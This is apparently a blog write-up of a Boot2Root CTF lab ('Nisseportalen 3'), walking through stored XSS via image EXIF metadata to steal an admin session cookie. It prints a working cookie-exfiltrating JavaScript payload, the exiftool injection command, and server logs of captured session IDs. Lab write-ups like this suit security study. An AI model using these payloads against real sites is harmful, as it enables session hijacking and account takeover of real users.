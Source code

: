 +++
title = 'Nisseportalen 3'
categories = ['Boot2Root']
date = 2024-12-15T13:35:38+01:00
scrollToTop = true
+++

## Challenge Name:

Nisseportalen 3

## Category:

Boot2Root

## Challenge Description:

Nissernes største ønske er en portal til deling af alle deres AI-genererede billeder aka Nisseportalen. Projektet er dog i fare efter Nissedevs utallige fiaskoer med både Dangerzone og Nissezonen.

Praktikantnissen har fået til opgave at redde Nisseportalen og få ryddet op i Nissedevs rod. Kan du hjælpe med at redde Nisseportalen og finde alle de sårbarheder, der må være, så projektet endelig kan blive gjort færdigt?

Men vær beredt, det er ikke til at sige hvad Nissedev har haft gang i...

[https://tryhackme.com/jr/nisseportalen2o24](https://tryhackme.com/jr/nisseportalen2o24)

## Approach

We pick up where we left off in [Nisseportalen 2](/nc3/boot2root/nisseportalen-2) and now have a foothold on the webapp.
We now have authenticated access to the webapp and therefore revisit all the previously identified pages!

### Enumeration

On /portal/list.php we can now see the previously identified images, in the billeder.txt file, being rendered.

![List of images](images/list.png)

Besides that we only have the /portal/upload.php page left to explore.

This is the part I spent the longest time on in the challenge, but ultimately I revisited the description, in which this phrase stood out to me:
"Projektet er dog i fare efter Nissedevs utallige fiaskoer med både Dangerzone og Nissezonen."
This indicted to me that there might be some "previous projects" to check out"!
I started out scanning for subdomains, without any luck, but then started searching for previous NC3 CTFs and discovered that the previous year's CTF had these challenges!
https://blog.danniranderis.dk/2021/12/16/danish-christmas-ctf-2021-by-nc3-police-intermediary-dangerzone-1-4/
https://nissen96.github.io/CTF-writeups/writeups/2022/NC3-CTF-2022/Nissezonen.html

After a thorough readthrough of the writeups I understood that with the help of XSS, we might be able to steal a session cookie and log in as an admin!

### Exploitation

In order to achieve this, we need to Add a malicious payload to an image EXIF metadata and then upload the image to the webapp at /portal/upload.php!

In order to edit image metadata, we can use exiftool to add the payload to the image EXIF metadata

The payload we want to add to the image is:

```bash
<img src='http://My-IP/hacked.jpg' oNlOaD="eval(atob('base64 encodeded payload here'))">
```

With the base64 encoded malicious payload:

```bash
var cookies = document.cookie ? encodeURIComponent(document.cookie) : 'nothing';
var my_endpoint = 'http://MY-IP:1337/cookie/' + cookies + '.jpg';
var my_img = '<img src=' + my_endpoint + '>';
document.write(my_img);
```

The transformation of the payload to base64 and the final exiftool command to add the payload to the image:

```bash
echo "var cookies = document.cookie ? encodeURIComponent(document.cookie) : 'nothing';var my_endpoint = 'http://10.10.51.96:1337/cookie/' + cookies + '.jpg';var my_img = '<img src=' + my_endpoint + '>';document.write(my_img);" | base64

exiftool -comment="<img src='http://10.10.51.96:1337/3.jpg' oNlOaD=\"eval(atob('dmFyIGNvb2tpZXMgPSBkb2N1bWVudC5jb29raWUgPyBlbmNvZGVVUklDb21wb25lbnQoZG9jdW1lbnQuY29va2llKSA6ICdub3RoaW5nJzt2YXIgbXlfZW5kcG9pbnQgPSAnaHR0cDovLzEwLjEwLjUxLjk2OjEzMzcvY29va2llLycgKyBjb29raWVzICsgJy5qcGcnO3ZhciBteV9pbWcgPSAnPGltZyBzcmM9JyArIG15X2VuZHBvaW50ICsgJz4nO2RvY3VtZW50LndyaXRlKG15X2ltZyk7Cg=='))\">" 3.jpg
```

We upload the image to the webapp and refresh the /portal/list.php page in order to execute the evaluation of our evil payload!

![Hacked](images/payload.png)

```bash
python3 -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...

10.10.20.207 - - [18/Dec/2024 21:58:02] "GET /hacked.jpg HTTP/1.1" 200 -
10.10.20.207 - - [18/Dec/2024 21:56:01] "GET /cookie/SESSID%3D643a51b9d31a97143f720067886343a883a6b1aabf02ed583dde2af945eb2777%3B%20PHPSESSID%3D643a51b9d31a97143f720067886343a883a6b1aabf02ed583dde2af945eb2777.jpg HTTP/1.1" 404

echo "SESSID%3D643a51b9d31a97143f720067886343a883a6b1aabf02ed583dde2af945eb2777%3B%20PHPSESSID%3D643a51b9d31a97143f720067886343a883a6b1aabf02ed583dde2af945eb2777" | python3 -c "import sys, urllib.parse; print(urllib.parse.unquote(sys.stdin.read().strip()))"

SESSID=643a51b9d31a97143f720067886343a883a6b1aabf02ed583dde2af945eb2777; PHPSESSID=643a51b9d31a97143f720067886343a883a6b1aabf02ed583dde2af945eb2777

```

And voilà, we have stolen the session cookie and can now log in as an admin and visit /portal/admin.php!

![Admin page](images/admin.png)

### Getting third flag

It seems a bit of final investigation is needed in order to find the third flag, but after simply testing a few commands in the input box, we get the flag and we can submit the third flag and move on to [Nisseportalen 4](/nc3/boot2root/nisseportalen-4)!

![Admin inputbox](images/inputbox.png)

![Flag](images/flag.png)

## Flag

```text
NC3{Flag3:N1553D3v_5yn32 DU_F0r7j3N3R_37_fl49}
```

## Reflections and Learnings

### Remember that CTFs may have some history!

Revisiting the challenge description proved invaluable. The reference to past projects like “Dangerzone” and “Nissezonen” hinted at a potential vulnerability to explore, which ultimately led to the discovery of an XSS attack vector by reading through old writeups from previous years NC3 CTFs!

### The Power of Cross-Site Scripting (XSS)

This challenge highlighted how XSS, often considered a low-priority vulnerability, can escalate into serious exploitation when combined with creative payloads. Injecting malicious payloads into image metadata was an innovative application of XSS, which proves why it deserves to be an OWASP top 10.

### EXIF Metadata as an Attack Vector

Using tools like exiftool to inject payloads into image metadata demonstrated how unconventional entry points, such as file metadata, can be exploited to compromise a system.

### Session Hijacking through Cookies

The successful theft of an admin session cookie using an XSS payload emphasized the critical need for secure cookie handling, including using the HttpOnly flag to prevent client-side scripts from accessing cookies!
